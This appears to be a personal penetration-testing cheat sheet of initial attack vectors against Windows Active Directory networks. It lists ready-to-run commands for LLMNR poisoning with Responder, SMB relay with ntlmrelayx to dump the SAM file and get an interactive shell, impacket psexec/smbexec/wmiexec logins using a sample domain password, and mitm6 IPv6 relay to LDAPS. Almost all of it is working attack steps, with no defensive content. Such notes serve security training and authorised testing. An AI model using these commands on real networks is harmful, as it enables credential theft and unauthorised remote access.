 # Initial Attack Vectors

## LLMNR Poisoning
- `responder -I <INTERFACE_NAME> -dwv`


## SMB Relay

#### Prerequisite
- smb signing must be disabled on the target (by default is disable on client windows and enable on server windows)
- relayed user credentials must be admin on target machine

#### Check if smb signing is off on the targets:
- `nmap --script=smb2-security-mode.nse -p445 192.168.189.0/24`

#### Steps for this attack:
1. edit `responder.conf` and turn off smb and http services
2. run responder : `responder -I <INTERFACE_NAME> -dwv`
3. Put targets ip address in targets.txt file
4. run `ntlmrelayx.py -tf targets.txt -smb2support`
5. it will capture SAM file of the target machine

- Note : using `-i` with `ntlmrelayx.py` will give an interactive shell

#### Gaining shell access

```bash
impacket-psexec kernel.local/aliakbari:p@ssword1@192.168.127.242

impacket-smbexec kernel.local/aliakbari:p@ssword1@192.168.127.242

impacket-wmiexec kernel.local/aliakbari:p@ssword1@192.168.127.242
```

## IPv6 Attacks
1. `mitm6 -i eth1 -d kernel.local`
2. `impacket-ntlmrelayx -6 -t ldaps://192.168.127.248 -wh fakewpad.kernel.local -l lootme`
3. Wait for authentication or reboot a system

